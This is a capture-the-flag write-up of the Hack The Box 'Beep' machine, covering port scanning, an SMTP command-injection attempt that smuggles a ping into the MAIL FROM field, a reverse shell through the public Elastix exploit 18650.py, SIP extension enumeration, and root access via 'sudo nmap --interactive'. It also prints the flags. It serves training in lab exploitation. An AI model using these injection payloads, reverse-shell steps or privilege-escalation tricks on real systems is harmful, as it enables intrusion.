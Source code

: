 <H1 style="text-align: center;">Hack The Box </H1>
<H2 style="text-align: center;">Beep write up </H2>
<H2 style="text-align: center;">By Michael ThugBounty Keck </H2>
<p style="text-align: center"><img src="/images/Beep/Beep.png"></p>


# Recon
The researcher started out with a scan of the host (10.10.10.3) using naabu<sup>1</sup>
```naabu -host 10.10.10.7 -p - -c 500 -nmap-cli 'nmap -sV -sC -n -Pn -oN active-hosts' -o naabu.txt```

|Status|IP|Port| Status | IP | Port |
| -----|--|----------- | --- | -- | ---| 
| open | 10.10.10.7 | 22 | open | 10.10.10.7 | 993 |
| open | 10.10.10.7 | 25 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 80 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 110 | open | 10.10.10.7 | 3306 |
| open | 10.10.10.7 | 111 | open | 10.10.10.7 | 4190 |
| open | 10.10.10.7 | 143 | open | 10.10.10.7 | 4445 |
| open | 10.10.10.7 | 443 | open | 10.10.10.7 | 4559 |
| open | 10.10.10.7 | 878 | open | 10.10.10.7 | 5030 |
| open | 10.10.10.7 | 10000 |
<p style="text-align: center"><img src="/images/Beep/beep%20(2).jpg"></p>

# User enum
<details>
    <summary>PORT 22 OpenSSH 4.3</summary>
    <p>Moving on from this one until creds are found.</p>
 </details>
 <details>
    <summary>PORT 25 Postfix smtpd</summary>
    <p> 
    smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
    Attempted to find the ver of the service but I was not able to.
    Then tried a quick manual test to see if RCE was possible. 

```
HELO x 
MAIL FROM:<;ping -c 4 192.168.49.161;> 
RCPT TO:<root> 
DATA 
<enter> 
vry4n 
. 
QUIT

```
This did not work. 
</p>
</details>
<details>
    <summary>PORT 80 http</summary>
    <p>Port 80 redirects to 443.</p>
 </details>
 <details>
    <summary>PORT 443 https</summary>
    <p>Going to https://10.10.10.7 I found a elastix sign in page.
    I tried some defult creds root:root, admin:admin, and elastix: elastix and all failed.
    Next I used google search and found an exploit 18650.py<sup>2</sup> 
    After updating the RHOST, LHOST, AND PORT I started a nc listener.
    
```
    nc -nlvp 4444
``` 
and ran the script, 
```
python2.7 18650.py 
```
but failed to get a call back. 
after some research I found a suite of VoIP tools that could be used to find an open extention since ext 1000 was not working. 
I downloaded sipvicious<sup>3</sup>. From the sipvicious wiki<sup>4</sup> I was able to find the proper commend 

```
./svwar -m INVITE 10.0.0.1
```
The command returned an open ext 233<p style="text-align: center"><img src="/images/Beep/beep%20(1).jpg"></p>
.  I again updated my 18650.py with the new ext <p style="text-align: center"><img src="/images/Beep/beep%20(4).jpg"></p>
 and ran it again, this time I did get a call back.
Looking at the exploit there was a way to upgrade to admin right away. The user needed to run

```
sudo nmap --interactive

```
then 

```
 !sh 
```
Since I was root I went a head and got both flags.<p style="text-align: center"><img src="/images/Beep/beep%20(3).jpg"></p>
 
USER FLAG:5be8f535cdf2b007b64885bf766db5d6
ROOT FLAG:a874a4316d949910a7fe32ca0da02907
 </p>
 </details>

 <p>No other ports were needed.</p>
 



REF
1. https://github.com/projectdiscovery/naabu
2. https://www.exploit-db.com/exploits/18650
3. https://www.kali.org/tools/sipvicious/
4. https://github.com/EnableSecurity/sipvicious/wiki/SVWar-Usage


